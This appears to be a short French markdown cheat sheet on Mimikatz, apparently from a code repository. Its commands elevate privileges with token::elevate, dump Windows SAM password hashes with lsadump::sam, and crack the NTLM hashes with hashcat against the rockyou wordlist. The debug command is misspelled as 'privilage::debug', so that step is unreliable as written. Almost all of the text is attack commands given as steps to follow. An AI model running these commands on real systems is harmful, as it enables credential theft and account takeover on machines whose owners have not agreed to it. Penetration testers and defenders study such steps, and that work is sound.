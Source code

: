 # Mimikatz

Toujours executer ses commandes avant toutes action avec mimikatz

```sh
privilage::debug
token::elevate
```

Vider les hash 

```sh
lsadump::sam
lsadump::sam /path
```

Déchiffrez ces hachages avec hashcat

```sh
hashcat -m 1000 <hash> rockyou.txt
```